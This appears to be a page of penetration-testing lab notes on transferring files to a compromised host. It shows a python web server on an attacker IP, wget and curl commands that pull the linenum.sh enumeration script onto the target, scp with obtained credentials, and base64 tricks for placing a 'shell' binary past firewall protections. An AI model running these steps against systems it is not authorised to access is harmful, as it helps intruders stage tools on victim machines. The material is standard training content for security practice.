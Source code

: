 # Wget / Curl

First start a python web server

```bash 
Mrwelldone$ cd /tmp
Mrwelldone$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```                                   


Then on the target machine:
```bash
user@remotehost$ wget http://10.10.14.1:8000/linenum.sh

...SNIP...
Saving to: 'linenum.sh'

linenum.sh 100%[==============================================>] 144.86K  --.-KB/s    in 0.02s

2021-02-08 18:09:19 (8.16 MB/s) - 'linenum.sh' saved [14337/14337]
```

[OR]

# Curl

```bash
user@remotehost$ curl http://10.10.14.1:8000/linenum.sh -o linenum.sh

100  144k  100  144k    0     0  176k      0 --:--:-- --:--:-- --:--:-- 176k
```

# SCP
Another method to transfer files would be using scp, granted we have obtained ssh user credentials on the remote host. We can do so as follows:

```bash

Mrwelldone@htb[/htb]$ scp linenum.sh user@remotehost:/tmp/linenum.sh

user@remotehost's password: *********
linenum.sh

```


# Using Base64

In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to base64 encode the file into base64 format, and then we can paste the base64 string on the remote server and decode it. For example, if we wanted to transfer a binary file called shell, we can base64 encode it as follows:

```bash


Mrwelldone@htb[/htb]$ base64 shell -w 0

f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA...SNIO...lIuy9iaW4vc2gAU0iJ51JXSInmDwU

```

Now, we can copy this base64 string, go to the remote host, and use base64 -d to decode it, and pipe the output into a file:
```bash


user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA...SNIO...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```







